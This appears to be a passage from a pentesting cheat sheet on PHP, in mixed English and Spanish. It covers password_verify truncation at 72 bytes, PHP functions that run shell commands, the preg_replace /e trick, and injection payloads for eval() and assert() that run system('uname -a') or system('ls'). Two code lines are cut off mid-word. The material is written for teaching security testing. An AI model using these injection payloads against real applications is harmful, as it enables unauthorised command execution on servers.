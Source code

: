 ```php
$cont=71; echo password_verify(str_repeat("a",$cont), password_hash(str_repeat("a",$cont)."b", PASSW
False

$cont=72; echo password_verify(str_repeat("a",$cont), password_hash(str_repeat("a",$cont)."b", PASSW
True
```

\*\*\*\*

## Code execution

**system\("ls"\);  
\`ls\`;  
shell\_exec\("ls"\);**

[Check this for more useful PHP functions](php-useful-functions-disable_functions-open_basedir-bypass/)

### **Code execution using** **preg\_replace\(\)**

```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```

To execute the code in the "replace" argument is needed at least one match.  
This option of preg\_replace has been **deprecated as of PHP 5.5.0.**

### **Code execution with Eval\(\)**

```text
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```

### **Code execution with Assert\(\)**

Esta función dentro de php permite ejecutar código que está escrito en un string con el objetivo de que se devuelva true o false \(y dependiendo de esto alterar la ejecución\). Por lo general se introducirá la variable del usuario entre medias de un string. Por ejemplo: assert\("strpos\($\_GET\['page'\]\),'..'\) === false"\) --&gt; En este caso el payload para ejecutar un comando podría ser:

```text
?page=a','NeVeR') === false and system('ls') and strpos('a
```

El caso es que hay que romper la query, ejecutar algo y volver a arreglarla \(para ello nos servimos del "and" o "%26%26" o "\|" --&gt; el "or", "\|\|" no funcionan pues si la primera es cierta deja de ejecutar y el ";" no funciona pues solo ejecuta la primera parte\).
